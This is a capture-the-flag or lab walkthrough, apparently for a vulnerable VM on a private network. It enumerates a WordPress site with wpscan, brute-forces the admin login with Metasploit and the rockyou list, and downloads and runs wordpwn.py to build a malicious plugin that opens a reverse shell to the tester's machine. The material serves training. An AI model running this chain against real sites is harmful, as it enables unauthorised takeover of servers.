 ## wpscan
```zsh
wpscan --disable-tls-checks --url https://192.168.0.34:12380/blogblog/ --enumerate ap --enumerate at --enumerate u --enumerate vp --enumerate cb
```
Upload directory has listing enabled: https://192.168.0.34:12380/blogblog/wp-content/uploads/
WordPress version 4.2.1 identified (Insecure, released on 2015-04-27).

```zsh
wpscan --disable-tls-checks --url https://192.168.0.34:12380/blogblog/ --enumerate u
```
We have some users.
tim, kathy, scott, heather, peter, elly, barry, harry, John Smith, john, garry
The main user is john:
![](https://i.imgur.com/grHvJdS.png)
wpscan --url https://192.168.0.34:12380/blogblog/ --wordlist ~/Documents/wordlist/rockyou.txt --username John --threads 100
It's not working

## Port 666
On the port 666 we have this.

![](https://i.imgur.com/zV3MsmS.png)

## Port 139

139/tcp   open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

It's a samba server.
![](https://i.imgur.com/2WLCCjG.png)
I found nothing interesting in the backups.
You can also use nautilus to download and browse in the smb server.
# Exploit
## Brute force metasploit

I've done a bruteforce with metasploit with the wordlist rockyou and the user john, because he is the one who manage the website.
The password is `incorrect`.

## upload a revers shell

You can upload files in wordpress.
https://192.168.0.34:12380/blogblog/wp-admin/plugin-install.php?tab=upload

I'v tried with this one:
https://docs.j7k6.org/wordpress-malicious-plugin-reverse-shell-metasploit/

```zsh
wget https://raw.githubusercontent.com/wetw0rk/malicious-wordpress-plugin/master/wordpwn.py
python wordpwn.py 192.168.0.21 4444 Y
```
Then, unzip the file and upload `wetw0rk_maybe.php`
Open it via this link:
https://192.168.0.34:12380/blogblog/wp-content/uploads/
